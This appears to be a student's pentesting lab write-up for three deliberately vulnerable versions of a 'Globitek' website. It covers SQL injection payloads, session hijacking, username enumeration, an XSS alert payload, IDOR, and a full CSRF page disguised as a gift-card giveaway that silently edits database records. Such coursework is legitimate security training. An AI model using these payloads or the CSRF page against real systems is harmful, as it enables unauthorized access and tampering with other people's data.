 # Project 8 - Pentesting Live Targets

Time spent: **5** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:

* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each color is vulnerable to only 2 of the 6 possible exploits. First discover which color has the specific vulnerability, then write a short description of how to exploit it, and finally demonstrate it using screenshots compiled into a GIF.

## Blue

Vulnerability #1: SQL Injection (SQLi)

Description: Injected two SQL commands instead of the Salesperson's ID number at the URL https://104.198.208.81/blue/public/salesperson.php?id= where the SQL commands are 'OR SLEEP(5)=0--' and 'AND NULL' One of the SQL Injections will cause the SQL query to pause for additional time before the information is displayed showing that there is a possible SQL Injection and information retrievable in the database. The other SQL Injection will cause the database query failed.

<img src="blue-SQLi.gif">

Vulnerability #2: Session Hijacking/Fixation

Description: Session Hjacked and Fixation by copying the PHPSESSIONID from an admin logged account and changing the PHPSESSIONID to the attacker unlogged account. Accessed the account login at the URL https://104.198.208.81/blue/public/ and adjusted the PHPSESSIONID using /hacktools/change_session_id.php

<img src="blue-Session_Hijacking_Fixation.gif">

## Green

Vulnerability #1: Username Enumeration

Description: Username Enumeration occured when usernames are valid and invalid in the server. For usernames that exist, the unsuccessful login message will be bolded whereas for usernames that does not exist the message will be unbolded. Developers assigned two different span tag classes, failure as bolded style whereas failed as unbolded style in HTML/CSS. Vulnerability can be fixed by keeping span tag classes the same when usernames are valid and invalid in the server.
  
<img src="green-Username_Enumeration.gif">

Vulnerability #2: Cross-Site Scripting (XSS)

Description: Pushed a Cross-Site Scripting in the contact feedback form. Inserted the XSS command <script>alert('WILL GOT HACKED BY XSS');</script> and the XSS attack script will run once the administrator account user clicks on the page.
  
<img src="green-XSS.gif">

## Red

Vulnerability #1: Insecure Direct Object Reference (IDOR)

Description: Insecure Direct Object Reference occured when modifying the id parameter at the URL https://104.198.208.81/red/public/salesperson.php?id= and access were gained in hidden accounts id 10 of Testy McTesterson along with id 11 of Lazy Lazyman by altering the GET request. Developers should check which user accounts are for public or private viewing at the main page and files.

<img src="red-IDOR.gif">

Vulnerability #2: Cross-Site Request Forgery (CSRF)

Description: Cross-Site Request Forgery cause a forge post request to modify information in the Salespeople database using a malicious HTML page in the user session hidden iframe. CSRF will run once an administrator account user access the page. Developers should require CSRF tokens on the Salespeople edit form submit database and disallow loading responses onto hidden iframe. Below is the HTML code that secretly loads the page and hides the outcome.
"<!DOCTYPE html>
<html>
  <head>
    <title>$100 Gift Cards Giveaways</title>
  </head>
  <body onload="document.my_form.submit()">
    <form action="https://104.198.208.81/red/public/staff/salespeople/edit.php?id=1" method="POST" name="my_form" style="display: none;" target="hidden_results" >
      <input type="text" name="first_name" value="GOT HACKED DARON" />
      <input type="text" name="last_name" value="GOT HACKED BURKE" />
      <input type="text" name="phone" value="123-456-7890" />
      <input type="text" name="email" value="DARONBURKE@HACKED.COM" />
    </form>
    <iframe name="hidden_results" style="display: none;"></iframe>
  </body>
</html>"

<img src="red-CSRF.gif">

## Notes

Describe any challenges encountered while doing the work
